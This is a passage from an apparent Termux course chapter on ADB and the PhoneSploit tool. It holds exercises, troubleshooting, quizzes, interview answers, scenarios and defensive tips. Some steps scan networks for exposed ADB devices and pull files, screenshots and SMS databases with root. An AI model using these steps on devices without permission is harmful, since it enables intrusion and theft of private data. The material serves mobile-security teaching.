adb shell getprop ro.build.version.release

# Expected: Device model and Android version displayed
```

### Exercise 2: Wireless ADB Connection

```bash
# Task: Connect to device over WiFi

# Step 1: First connect via USB
adb devices

# Step 2: Enable TCP/IP mode
adb tcpip 5555
# Output: restarting in TCP mode port: 5555

# Step 3: Get device IP
adb shell ip addr show wlan0 | grep inet
# Note the IP address (e.g., 192.168.1.100)

# Step 4: Connect over WiFi
adb connect 192.168.1.100:5555

# Step 5: Disconnect USB cable
# Verify connection still works:
adb devices
# Should show: 192.168.1.100:5555 device

# Step 6: Test commands
adb shell getprop ro.product.model

# Step 7: Disconnect when done
adb disconnect 192.168.1.100:5555

# Expected: Successful wireless connection and command execution
```

### Exercise 3: File Operations

```bash
# Task: Transfer files between device and Termux

# Step 1: Create a test file
echo "This is a test file from Termux" > testfile.txt

# Step 2: Push file to device
adb push testfile.txt /sdcard/Download/

# Step 3: Verify on device
adb shell ls -l /sdcard/Download/testfile.txt

# Step 4: Read file on device
adb shell cat /sdcard/Download/testfile.txt

# Step 5: Create directory on device
adb shell mkdir /sdcard/Download/test_folder/

# Step 6: Pull file from device
adb pull /sdcard/Download/testfile.txt ./pulled_file.txt

# Step 7: Verify pulled file
cat pulled_file.txt

# Step 8: Pull entire directory
adb pull /sdcard/DCIM/Camera/ ./photos_backup/

# Step 9: Clean up
adb shell rm /sdcard/Download/testfile.txt
rm testfile.txt pulled_file.txt

# Expected: Files successfully transferred both directions
```

### Exercise 4: App Management

```bash
# Task: Manage apps using ADB

# Step 1: List all packages
adb shell pm list packages | head -20

# Step 2: List third-party apps only
adb shell pm list packages -3

# Step 3: Find a specific package
adb shell pm list packages | grep google

# Step 4: Get package info
adb shell pm path com.android.chrome

# Step 5: Get detailed package info
adb shell dumpsys package com.android.chrome | head -50

# Step 6: Force stop an app
adb shell am force-stop com.android.chrome

# Step 7: Clear app data (be careful!)
# adb shell pm clear com.example.app

# Step 8: Start an app
adb shell monkey -p com.android.chrome 1

# Expected: Understanding of package management
```

### Exercise 5: PhoneSploit Installation and Usage

```bash
# Task: Install and use PhoneSploit

# Step 1: Install dependencies
pkg install python git android-tools -y
pip install colorama

# Step 2: Clone PhoneSploit
git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git

# Step 3: Navigate to directory
cd PhoneSploit-Pro

# Step 4: Install requirements
pip install -r requirements.txt

# Step 5: Run PhoneSploit
python phonesploit.py

# Step 6: Select "Scan Network for Devices"
# Enter your network range (e.g., 192.168.1.0/24)

# Step 7: Connect to discovered device
# Select "Connect Device" and enter IP

# Step 8: Get device info
# Select "Get Device Info"

# Step 9: Take screenshot
# Select "Screenshot"

# Step 10: Pull files
# Select "Pull Files" and specify path

# Expected: PhoneSploit working with your test device
```

### Exercise 6: Security Audit

```bash
# Task: Audit your own device security

# Step 1: Check USB Debugging status
adb shell getprop | grep debug
# Look for: ro.debuggable

# Step 2: List apps with dangerous permissions
adb shell pm list packages -3 > installed_apps.txt
# Manual review needed

# Step 3: Check for unknown sources
adb shell getprop | grep unknown

# Step 4: Check ADB authorized computers
# Settings → Developer Options → Revoke USB debugging authorizations

# Step 5: Test wireless ADB vulnerability
adb tcpip 5555
# If this works without confirmation, device is vulnerable

# Step 6: Secure the device
# Disable USB Debugging
# Disable Wireless Debugging
# Revoke authorizations

# Expected: Understanding of device security posture
```

---

## ⚠️ TROUBLESHOOTING

### Problem 1: "adb: command not found"

```bash
# Cause: Android tools not installed

# Solution:
pkg update && pkg upgrade -y
pkg install android-tools -y

# Verify:
adb version
```

### Problem 2: "device unauthorized"

```bash
# Cause: Device not authorized for ADB

# Solution:
# 1. Check device screen for "Allow USB debugging?" popup
# 2. Tap "Allow" (uncheck "Always allow" for security)
# 3. If no popup appears:

# Revoke old authorizations on device:
# Settings → Developer Options → Revoke USB debugging authorizations

# Reconnect device:
adb kill-server
adb start-server
adb devices

# Check for popup again
```

### Problem 3: "device offline"

```bash
# Cause: ADB daemon not responding

# Solution 1: Restart ADB server
adb kill-server
adb start-server
adb devices

# Solution 2: Toggle USB debugging
# Settings → Developer Options → USB Debugging → OFF → ON

# Solution 3: Check USB cable
# Try different cable or port

# Solution 4: Restart device
```

### Problem 4: "cannot connect to IP:5555"

```bash
# Cause: Network connectivity issues

# Solution 1: Check device and computer on same network
ping <device_ip>

# Solution 2: Check if ADB is listening
adb shell netstat -tulpn | grep 5555

# Solution 3: Re-enable TCP mode
adb tcpip 5555

# Solution 4: Check firewall
# Temporarily disable firewall

# Solution 5: Use correct IP
adb shell ip addr show wlan0
# Note the correct IP address

# Solution 6: Restart wireless debugging
# Settings → Developer Options → Wireless Debugging → OFF → ON
```

### Problem 5: "insufficient permissions for device"

```bash
# Cause: ADB running without proper permissions

# Solution 1: Run as root (if available)
su -c adb devices

# Solution 2: Check udev rules (Linux)
sudo usermod -aG plugdev $USER
# Logout and login again

# Solution 3: Vendor ID setup
lsusb
# Note vendor ID
echo 'SUBSYSTEM=="usb", ATTR{idVendor}=="<vendor_id>", MODE="0666"' | sudo tee /etc/udev/rules.d/51-android.rules
sudo udevadm control --reload-rules

# Solution 4: Reset ADB
adb kill-server
sudo adb start-server
adb devices
```

### Problem 6: PhoneSploit Not Working

```bash
# Cause: Missing dependencies or connection issues

# Solution 1: Reinstall dependencies
pip install --upgrade colorama requests

# Solution 2: Check ADB connection
adb devices
# Device should be listed

# Solution 3: Use Python 3 explicitly
python3 phonesploit.py

# Solution 4: Clone fresh copy
rm -rf PhoneSploit-Pro
git clone https://github.com/AzeemIdrisi/PhoneSploit-Pro.git
cd PhoneSploit-Pro
pip install -r requirements.txt

# Solution 5: Check permissions
chmod +x phonesploit.py

# Solution 6: Run with debug
python3 -u phonesploit.py
```

### Problem 7: Screenshot/Recording Fails

```bash
# Cause: Permission or storage issues

# Solution 1: Check if command works in shell
adb shell screencap -p /sdcard/test.png
adb pull /sdcard/test.png

# Solution 2: Check storage permissions
adb shell ls -ld /sdcard/

# Solution 3: Use alternative path
adb shell screencap -p /data/local/tmp/screen.png
adb pull /data/local/tmp/screen.png

# Solution 4: For screen recording
adb shell screenrecord --help
# Check supported parameters

# Solution 5: Root access (if available)
adb shell su -c "screencap -p /sdcard/screen.png"
```

### Problem 8: SMS/Contacts Access Denied

```bash
# Cause: Restricted access without root

# Solution 1: Check if app has permission
adb shell dumpsys package com.android.providers.telephony | grep permission

# Solution 2: Use content provider (limited)
adb shell content query --uri content://sms/inbox

# Solution 3: Root access required for full access
adb shell su -c "sqlite3 /data/data/com.android.providers.telephony/databases/mmssms.db 'SELECT * FROM sms LIMIT 10'"

# Solution 4: Backup and extract
adb backup -apk -shared com.android.providers.telephony -f sms.ab
# Then decode backup file

# Note: Full SMS/contacts access typically requires ROOT
```

---

## 🎬 VIDEO ASSETS

### Thumbnail Concepts

**Option A: Hacker Style**
```
┌────────────────────────────────────┐
│  [Dark Terminal Background]        │
│                                    │
│  📱 PhoneSploit & ADB              │
│  Complete Guide                    │
│                                    │
│  🔓 Access Any Android             │
│  Wirelessly!                       │
│                                    │
│  [T3rmuxk1ng Logo]                 │
│  Chapter 36                        │
└────────────────────────────────────┘
```

**Option B: Feature Highlight**
```
┌────────────────────────────────────┐
│  ADB TOOLS MASTERCLASS             │
│  ─────────────────────────────     │
│                                    │
│  ✓ Wireless Access                 │
│  ✓ File Extraction                 │
│  ✓ Screenshot/Recording            │
│  ✓ PhoneSploit Tool                │
│                                    │
│  🎯 Ethical Hacking                │
│  [T3rmuxk1ng]                      │
└────────────────────────────────────┘
```

**Option C: Warning Style**
```
┌────────────────────────────────────┐
│  ⚠️ YOUR PHONE IS VULNERABLE!      │
│                                    │
│  ADB Can Access:                   │
│  • Files 📁                        │
│  • SMS 💬                          │
│  • Contacts 👥                     │
│  • Screen 📸                       │
│                                    │
│  Learn to PROTECT yourself!        │
│  Chapter 36 | T3rmuxk1ng           │
└────────────────────────────────────┘
```

### Video Description Template

```markdown
📱 Termux Full Course - Chapter 36: PhoneSploit & ADB Tools

🔥 In this video you'll learn:
• ADB kya hai aur kaise kaam karta hai
• Termux mein ADB installation
• Wireless ADB connection setup
• Basic se advanced ADB commands
• PhoneSploit tool installation aur usage
• Android device ko remotely access karna
• Security risks aur protection tips

⏱️ Timestamps:
0:00 - Introduction
1:00 - ADB Fundamentals
5:00 - ADB Installation in Termux
8:00 - ADB Over Network Setup
12:00 - Basic ADB Commands
16:00 - PhoneSploit Tool Guide
20:00 - Security Implications & Protection
23:00 - Summary & Commands

📥 Commands from this video:
pkg install android-tools -y
adb devices
adb connect IP:5555
adb shell
adb push/pull
python phonesploit.py

🔗 Links:
• PhoneSploit Pro: https://github.com/AzeemIdrisi/PhoneSploit-Pro
• ADB Documentation: https://developer.android.com/tools/adb

📚 Full Course Playlist:
[PLAYLIST LINK]

📱 Follow T3rmuxk1ng:
• YouTube: @T3rmuxk1ng
• Telegram: [LINK]

#Termux #ADB #PhoneSploit #AndroidHacking #EthicalHacking #T3rmuxk1ng #TermuxCourse #MobileSecurity

---
⚠️ Disclaimer: This video is for educational purposes only. Use these tools responsibly and only on devices you own or have explicit permission to test. Unauthorized access to devices is illegal.
```

### Tags List

```
adb, android debug bridge, phonesploit, android hacking, adb commands,
termux adb, adb termux, wireless adb, adb over wifi, android security,
mobile security, ethical hacking, penetration testing, termux tutorial,
termux course, android penetration testing, adb shell, adb commands,
android exploit, termux hacking, t3rmuxk1ng, adb tutorial, phonesploit tutorial,
android remote access, adb network, android debugging, mobile hacking
```

### Hashtags

```
#ADB #PhoneSploit #AndroidHacking #Termux #TermuxCourse #EthicalHacking 
#MobileSecurity #AndroidDebug #PenetrationTesting #CyberSecurity 
#TermuxHindi #T3rmuxk1ng #AndroidSecurity #HackingTools #RemoteAccess
```

---

## 📚 ADDITIONAL RESOURCES

### Official Documentation

| Resource | Link |
|----------|------|
| ADB Official Guide | https://developer.android.com/tools/adb |
| ADB Command Reference | https://developer.android.com/tools/adb#commandsummary |
| Android Debug Bridge | https://source.android.com/docs/setup/build/adb |
| PhoneSploit Pro | https://github.com/AzeemIdrisi/PhoneSploit-Pro |

### Related Tools

| Tool | Purpose |
|------|---------|
| Fastboot | Bootloader operations |
| Scrcpy | Screen mirroring |
| AdbFuse | Mount device as filesystem |
| AdbSync | File synchronization |
| MobSF | Mobile Security Framework |
| Drozer | Android security assessment |

### Learning Resources

| Resource | Description |
|----------|-------------|
| Android Developers | Official Android documentation |
| OWASP Mobile | Mobile security guidelines |
| Android Security Bulletins | Security updates info |
| ADB Cheat Sheet | Quick command reference |

---

## ✅ CHAPTER CHECKLIST

Before moving to Chapter 37, verify:

- [ ] ADB installed in Termux (`adb version` works)
- [ ] Successfully connected to a device via USB
- [ ] Successfully connected to a device over WiFi
- [ ] Used basic ADB commands (shell, push, pull)
- [ ] Installed and ran PhoneSploit
- [ ] Captured screenshot via ADB
- [ ] Listed installed packages
- [ ] Understood security implications of ADB
- [ ] Know how to protect your own device

---

## 🎯 NEXT CHAPTER PREVIEW

**Chapter 37: Social Engineering Toolkit (SET)**

- Social engineering attacks overview
- SET installation in Termux
- Phishing attack vectors
- Fake login pages creation
- Credential harvesting
- Attack detection and prevention
- Real-world examples and demos

---

**Chapter Complete! 🎉**

*Created by T3rmuxk1ng | Termux Full Course*

---

# 🚀 POWER UPGRADE - NEXT LEVEL CONTENT

---

## 🎮 INTERACTIVE QUIZ - Test Your Knowledge!

### ADB & PhoneSploit Mastery Quiz

**Q1: What does ADB stand for?**
- A) Android Data Bridge
- B) Android Debug Bridge ✓
- C) Advanced Debugging Binary
- D) Android Device Bus

**Q2: Which command lists connected ADB devices?**
- A) adb list
- B) adb show
- C) adb devices ✓
- D) adb connected

**Q3: What port does ADB typically use for network connections?**
- A) 22
- B) 80
- C) 5555 ✓
- D) 8080

**Q4: Which command enables ADB over TCP/IP?**
- A) adb tcpip 5555 ✓
- B) adb network enable
- C) adb wifi on
- D) adb tcp enable

**Q5: What does the "adb shell" command do?**
- A) Opens a shell script editor
- B) Provides interactive shell access to device ✓
- C) Shows shell processes
- D) Creates a new shell

**Q6: Which flag is used to push a file to an Android device?**
- A) adb send
- B) adb upload
- C) adb push ✓
- D) adb put

**Q7: What command captures a screenshot on Android via ADB?**
- A) adb screenshot
- B) adb shell screencap ✓
- C) adb capture
- D) adb image

**Q8: What is required for ADB to work on a device?**
- A) Root access
- B) USB Debugging enabled ✓
- C) Custom ROM
- D) Unlocked bootloader

**Q9: Which command installs an APK via ADB?**
- A) adb install app.apk ✓
- B) adb add app.apk
- C) adb apk app.apk
- D) adb setup app.apk

**Q10: What device state indicates authorization is pending?**
- A) device
- B) ready
- C) unauthorized ✓
- D) pending

**Q11: How do you pull a file from an Android device?**
- A) adb download
- B) adb fetch
- C) adb pull ✓
- D) adb get

**Q12: What command kills the ADB server?**
- A) adb stop-server
- B) adb kill-server ✓
- C) adb server kill
- D) adb terminate

---

## 🎮 INTERACTIVE QUIZ

Test your ADB knowledge! Answers are hidden below each question.

### Question 1
**What does ADB stand for?**
<details>
<summary>Click to reveal answer</summary>

ADB stands for Android Debug Bridge - a command-line tool that lets you communicate with an Android device for debugging and development purposes.
</details>

### Question 2
**What is USB Debugging?**
<details>
<summary>Click to reveal answer</summary>

USB Debugging is a developer option that allows Android devices to communicate with a computer via ADB. It must be enabled for ADB commands to work.
</details>

### Question 3
**What command lists connected ADB devices?**
<details>
<summary>Click to reveal answer</summary>

`adb devices` lists all connected Android devices. Use `adb devices -l` for detailed information.
</details>

### Question 4
**How do you connect to a device over WiFi?**
<details>
<summary>Click to reveal answer</summary>

`adb connect <IP_ADDRESS>:5555` connects to a device over the network. First enable TCP mode with `adb tcpip 5555` via USB.
</details>

### Question 5
**What is the difference between `adb push` and `adb pull`?**
<details>
<summary>Click to reveal answer</summary>

`adb push` copies files FROM computer TO device. `adb pull` copies files FROM device TO computer.
</details>

### Question 6
**How do you install an APK via ADB?**
<details>
<summary>Click to reveal answer</summary>

`adb install app.apk` installs an APK file. Use `adb install -r app.apk` to reinstall keeping data.
</details>

### Question 7
**What does `adb shell` do?**
<details>
<summary>Click to reveal answer</summary>

`adb shell` opens an interactive shell session on the Android device, allowing you to run Linux commands directly on the device.
</details>

### Question 8
**How do you take a screenshot via ADB?**
<details>
<summary>Click to reveal answer</summary>

`adb shell screencap -p /sdcard/screen.png` takes a screenshot. Use `adb pull /sdcard/screen.png` to copy to your computer.
</details>

### Question 9
**What is PhoneSploit?**
<details>
<summary>Click to reveal answer</summary>

PhoneSploit is a Python-based tool that uses ADB to remotely access and exploit Android devices, providing a menu-driven interface for various attacks.
</details>

### Question 10
**How do you access device logs?**
<details>
<summary>Click to reveal answer</summary>

`adb logcat` displays live system logs. Use `adb logcat > logs.txt` to save to file.
</details>

### Question 11
**What does "unauthorized" mean in ADB devices?**
<details>
<summary>Click to reveal answer</summary>

"Unauthorized" means the device hasn't accepted the RSA key fingerprint. The user must accept the "Allow USB debugging?" prompt on the device.
</details>

### Question 12
**How do you uninstall an app via ADB?**
<details>
<summary>Click to reveal answer</summary>

`adb uninstall com.package.name` removes an app. Add `-k` to keep data and cache.
</details>

### Question 13
**What is ADB over network?**
<details>
<summary>Click to reveal answer</summary>

ADB over network allows wireless ADB connections via TCP/IP, eliminating the need for USB cable. Requires both devices on same network.
</details>

### Question 14
**How do you restart ADB server?**
<details>
<summary>Click to reveal answer</summary>

`adb kill-server` stops the server, `adb start-server` starts it. Or combine: `adb kill-server && adb start-server`
</details>

### Question 15
**What security risk does ADB pose?**
<details>
<summary>Click to reveal answer</summary>

If USB Debugging is left enabled, anyone with physical or network access can: access files, install malware, read SMS/contacts, capture screen, and potentially gain root access.
</details>

---

## 🎯 INTERVIEW QUESTIONS

### Q1: Explain ADB architecture and components.

**Answer:**
ADB consists of three main components:
1. **Client** - Runs on your development machine, sends commands
2. **Daemon (adbd)** - Runs on the Android device, executes commands
3. **Server** - Background process on development machine, manages communication

Communication flow:
```
Client ←→ Server ←→ Daemon (adbd)
   │                       │
   └── USB/TCP Connection ─┘
```

### Q2: What are the security implications of leaving USB Debugging enabled?

**Answer:**
**Risks:**
- Physical access allows full device control
- Data exfiltration (photos, documents, app data)
- Malware installation without user interaction
- Screen capture and keylogging potential
- Access to sensitive data (SMS, contacts)
- Potential privilege escalation to root

**Mitigations:**
- Disable USB Debugging when not needed
- Revoke authorized computers regularly
- Use encrypted storage
- Enable device encryption
- Monitor connected devices

### Q3: How does ADB over WiFi work and what are its risks?

**Answer:**
**How it works:**
1. Enable USB Debugging
2. Connect via USB first
3. Run `adb tcpip 5555` to enable TCP mode
4. Connect via `adb connect IP:5555`

**Risks:**
- Anyone on same network can connect
- No encryption by default
- Man-in-the-middle attacks possible
- Device becomes attack surface

**Mitigations:**
- Use only on trusted networks
- Disable after use
- Android 11+ requires pairing code
- Use VPN for remote connections

### Q4: What can you do with ADB shell access?

**Answer:**
```bash
# System information
getprop ro.build.version.release  # Android version
getprop ro.product.model          # Device model

# File operations
ls /sdcard/                       # List files
cat /proc/cpuinfo                 # CPU info
cat /proc/meminfo                 # Memory info

# Package management
pm list packages                  # List installed apps
pm path com.app                   # Get app path
pm clear com.app                  # Clear app data

# Process management
ps                                # Running processes
kill <PID>                        # Kill process

# Network
ip addr show wlan0                # IP address
netstat                           # Network connections
```

### Q5: How do you troubleshoot ADB connection issues?

**Answer:**
```bash
# Check devices
adb devices

# If empty, restart server
adb kill-server && adb start-server

# Check if device detected
lsusb  # Linux - look for device

# Revoke and reauthorize
# On device: Settings > Developer Options > Revoke USB debugging authorizations

# Check USB cable and port
# Try different cable/port

# WiFi connection issues
adb disconnect
adb connect IP:5555

# Check for conflicts
# Kill other ADB processes
pkill adb
```

### Q6: What is the difference between `adb install` flags?

**Answer:**
| Flag | Purpose |
|------|---------|
| `-r` | Reinstall keeping data |
| `-d` | Allow version downgrade |
| `-s` | Install to SD card |
| `-g` | Grant all permissions |
| `-t` | Allow test APKs |

Example: `adb install -r -g app.apk`

### Q7: How would you use ADB for device backup?

**Answer:**
```bash
# Full backup (requires screen unlock)
adb backup -apk -shared -all -f backup.ab

# Backup specific app
adb backup -apk com.app.package -f app_backup.ab

# Restore backup
adb restore backup.ab

# Pull app data (requires root)
adb pull /data/data/com.app.package/

# Pull entire SD card
adb pull /sdcard/ ./backup/
```

### Q8: What PhoneSploit capabilities should security professionals know?

**Answer:**
**PhoneSploit Features:**
- Auto-connect to network devices
- Information gathering (IMEI, model, etc.)
- File browser access
- Screenshot capture
- Screen recording
- SMS/contacts extraction (with permissions)
- App installation
- Remote shell access
- Port scanning for ADB

**Detection:**
- Monitor ADB connections
- Check for unknown authorized PCs
- Audit installed applications

### Q9: How do you secure an Android device against ADB attacks?

**Answer:**
1. **Disable USB Debugging** when not needed
2. **Disable Wireless Debugging** after use
3. **Revoke authorizations** regularly
4. **Use strong screen lock** (PIN/password, not pattern)
5. **Enable device encryption**
6. **Disable unknown sources** for app installation
7. **Monitor for suspicious activity**
8. **Use mobile security solutions**
9. **Keep device updated**
10. **Avoid public WiFi** with ADB enabled

### Q10: What are the legal considerations of ADB usage?

**Answer:**
**Legal:**
- Only access devices you own
- Written permission for others' devices
- Unauthorized access is illegal
- Data theft has severe penalties

**Ethical:**
- Respect privacy
- Responsible disclosure
- Don't install malware
- Clean up after testing

**Professional:**
- Document all activities
- Report findings
- Help improve security

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Device Security Audit

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  DEVICE SECURITY AUDIT                                    ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Corporate device security assessment. Verify configuration compliance.   ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Connect via ADB:                                                      ║
║     adb devices                                                          ║
║     adb -s <serial> shell                                                ║
║                                                                           ║
║  2. Check device info:                                                    ║
║     getprop ro.build.version.release    # Android version               ║
║     getprop ro.build.security_patch     # Security patch date           ║
║     settings get global adb_enabled     # ADB status                     ║
║                                                                           ║
║  3. Security settings:                                                    ║
║     settings get secure lock_screen_lock_after_timeout                  ║
║     settings get system screen_brightness                               ║
║     dumpsys device_policy                                               ║
║                                                                           ║
║  4. Check installed apps:                                                 ║
║     pm list packages -3    # Third-party apps                           ║
║     pm list packages -d    # Disabled apps                              ║
║                                                                           ║
║  RESULT: Identified outdated security patch, unsecured settings          ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Data Recovery

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    DATA RECOVERY                                          ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  User's phone screen broken, need to extract data. Device previously     ║
║  authorized for ADB.                                                     ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Connect via network (if enabled):                                     ║
║     adb connect device_ip:5555                                           ║
║                                                                           ║
║  2. Pull important data:                                                  ║
║     adb pull /sdcard/DCIM/ ./photos/                                     ║
║     adb pull /sdcard/Download/ ./downloads/                              ║
║     adb pull /sdcard/Documents/ ./docs/                                  ║
║                                                                           ║
║  3. Pull app backups:                                                     ║
║     adb backup -apk -f app_backup.ab com.important.app                  ║
║                                                                           ║
║  4. Create full backup:                                                   ║
║     adb backup -apk -shared -all -f full_backup.ab                       ║
║                                                                           ║
║  RESULT: Successfully recovered 10GB of user data                        ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 3: App Development Testing

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                APP DEVELOPMENT TESTING                                    ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  QA testing Android app across multiple devices. Need automated install. ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. List all connected devices:                                           ║
║     adb devices -l                                                       ║
║                                                                           ║
║  2. Install on specific device:                                           ║
║     adb -s <serial> install -r app.apk                                   ║
║                                                                           ║
║  3. Clear app data:                                                       ║
║     adb -s <serial> shell pm clear com.myapp                             ║
║                                                                           ║
║  4. Launch and monitor:                                                   ║
║     adb -s <serial> shell am start -n com.myapp/.MainActivity            ║
║     adb -s <serial> logcat -s MyApp:*                                    ║
║                                                                           ║
║  5. Automated script for all devices:                                     ║
║     for device in $(adb devices | grep -v List | cut -f1); do           ║
║         adb -s $device install -r app.apk                                ║
║     done                                                                 ║
║                                                                           ║
║  RESULT: Deployed app to 5 devices efficiently                           ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 4: Incident Response

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    INCIDENT RESPONSE                                      ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Suspected malware on corporate device. Need to investigate.             ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Gather system information:                                            ║
║     adb shell getprop > system_info.txt                                  ║
║     adb shell dumpsys package packages > packages.txt                    ║
║                                                                           ║
║  2. Check for suspicious apps:                                            ║
║     adb shell pm list packages -3 > installed_apps.txt                   ║
║     # Compare against approved list                                      ║
║                                                                           ║
║  3. Check running processes:                                              ║
║     adb shell ps -A > processes.txt                                      ║
║     adb shell top -n 1 > running_tasks.txt                               ║
║                                                                           ║
║  4. Extract suspicious APK:                                               ║
║     adb shell pm path com.suspicious.app                                 ║
║     adb pull /data/app/com.suspicious.app/base.apk                       ║
║                                                                           ║
║  5. Network connections:                                                  ║
║     adb shell netstat -anp > network.txt                                 ║
║                                                                           ║
║  RESULT: Identified and extracted malicious app for analysis             ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 5: Remote Device Management

```
╔═══════════════════════════════════════════════════════════════════════════╗
║              REMOTE DEVICE MANAGEMENT                                     ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Remote support for field devices. Need to diagnose issues.              ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Establish connection via adb over network:                            ║
║     adb connect device.company.com:5555                                  ║
║                                                                           ║
║  2. Check device status:                                                  ║
║     adb shell dumpsys battery                                            ║
║     adb shell df -h                        # Storage                     ║
║     adb shell cat /proc/meminfo           # Memory                      ║
║                                                                           ║
║  3. Diagnose connectivity:                                                ║
║     adb shell ping -c 4 google.com                                       ║
║     adb shell ip route                                                   ║
║                                                                           ║
║  4. Push diagnostic tool:                                                 ║
║     adb push diagnostic_tool.sh /sdcard/                                 ║
║     adb shell sh /sdcard/diagnostic_tool.sh                              ║
║                                                                           ║
║  5. Collect logs:                                                         ║
║     adb logcat -d > device_logs.txt                                      ║
║                                                                           ║
║  RESULT: Diagnosed and resolved network configuration issue              ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## 📊 MERMAID DIAGRAMS - ADB Attack Flow



---

## ⚡ TOOL CHEATSHEET

| Command | Purpose |
|---------|---------|
| `adb devices` | List devices |
| `adb shell` | Get shell |
| `adb connect IP:5555` | WiFi connect |
| `adb push/pull` | File transfer |
| `adb install app.apk` | Install app |
| `adb shell screencap` | Screenshot |

---

## 🔧 TOOL COMPARISON

| Tool | Purpose |
|------|---------|
| ADB | Official tool |
| PhoneSploit | Automated exploitation |
| Scrcpy | Screen control |

---

## 🚀 CHALLENGES

1. Connect device over WiFi
2. Extract files from device
3. Install custom APK

⚠️ **LEGAL:** Only test YOUR devices!

---

## 📖 GLOSSARY

| Term | Definition |
|------|------------|
| ADB | Android Debug Bridge |
| USB Debugging | Developer mode |
| Shell | Command interface |
| APK | Android Package |
| Root | Superuser access |

---

## 💼 CAREER: Mobile Security

**Salary:** $90K-$160K
**Certs:** MOIS, GREM

---

## ⚠️ LEGAL DISCLAIMER

**ADB access requires permission!**
Unauthorized device access is illegal.

---

## 🛡️ DEFENSIVE MEASURES

- Disable USB Debugging
- Revoke ADB authorizations
- Use strong screen lock
- Disable wireless ADB

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's

| Practice | Description |
|----------|-------------|
| ✅ Disable ADB when not needed | Reduces attack surface |
| ✅ Revoke old authorizations | Prevents unauthorized access |
| ✅ Use strong screen lock | Prevents physical access |
| ✅ Monitor ADB connections | Detect unauthorized access |
| ✅ Only authorize trusted PCs | Limit access points |
| ✅ Keep device updated | Security patches |
| ✅ Use encrypted storage | Protect data |
| ✅ Audit installed apps | Remove suspicious apps |
| ✅ Disable wireless ADB after use | Closes network vector |
| ✅ Document testing activities | Professional practice |

### ❌ DON'Ts

| Practice | Risk |
|----------|------|
| ❌ Leave USB Debugging enabled always | Physical access vulnerability |
| ❌ Authorize unknown computers | Security breach |
| ❌ Use ADB on public WiFi | Network attacks |
| ❌ Ignore unauthorized prompt | May be attack attempt |
| ❌ Store sensitive data unencrypted | Data theft |
| ❌ Skip device updates | Known vulnerabilities |
| ❌ Install apps from unknown sources | Malware risk |
| ❌ Share ADB authorized computers | Unauthorized access |
| ❌ Leave device unlocked | Physical access |
| ❌ Forget to check connected devices | Undetected access |

---

## 📊 ARCHITECTURE DIAGRAMS

### ADB Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                        ADB ARCHITECTURE                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   CLIENT SIDE                           SERVER SIDE                        │
│   ┌──────────────┐                     ┌──────────────┐                   │
│   │  ADB Client  │                     │  ADB Daemon  │                   │
│   │  (adb cmd)   │                     │   (adbd)     │                   │
│   └──────┬───────┘                     └──────┬───────┘                   │
│          │                                    │                            │
│          ▼                                    ▼                            │
│   ┌──────────────┐                     ┌──────────────┐                   │
│   │  ADB Server  │◄─────── USB ────────►│  TCP 5555    │                   │
│   │  (background)│        or TCP        │  (ADB port)  │                   │
│   └──────────────┘                     └──────────────┘                   │
│                                                                             │
│   Commands flow:                                                            │
│   ┌─────────────────────────────────────────────────────────────────────┐   │
│   │  adb devices → Server → Daemon → Device → Response → Server → You  │   │
│   └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### ADB Connection Types

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    ADB CONNECTION TYPES                                     │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   USB CONNECTION                    NETWORK CONNECTION                      │
│   ┌─────────────────┐              ┌─────────────────┐                     │
│   │    Computer     │              │    Computer     │                     │
│   │    (adb)        │              │    (adb)        │                     │
│   └────────┬────────┘              └────────┬────────┘                     │
│            │                                │                              │
│      USB Cable                          WiFi/TCP                          │
│            │                                │                              │
│            ▼                                ▼                              │
│   ┌─────────────────┐              ┌─────────────────┐                     │
│   │    Android      │              │    Android      │                     │
│   │    Device       │              │    Device       │                     │
│   └─────────────────┘              │    IP:Port      │                     │
│                                    └─────────────────┘                     │
│                                                                             │
│   Advantages:                      Advantages:                             │
│   - More stable                    - Wireless                              │
│   - Faster transfer                - Remote access                         │
│   - Required for tcpip             - Multiple devices                      │
│                                                                             │
│   Risks:                           Risks:                                  │
│   - Physical access needed         - Network exposure                      │
│   - Cable required                 - Slower transfer                       │
│                                    - Authentication issues                 │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### PhoneSploit Workflow

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    PHONESPOXIT WORKFLOW                                    │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   ┌─────────────┐     ┌─────────────┐     ┌─────────────┐                 │
│   │   Start     │────►│   Scan      │────►│   Connect   │                 │
│   │ PhoneSploit │     │   Network   │     │   Device    │                 │
│   └─────────────┘     └─────────────┘     └──────┬──────┘                 │
│                                                   │                        │
│                    ┌──────────────────────────────┘                        │
│                    │                                                       │
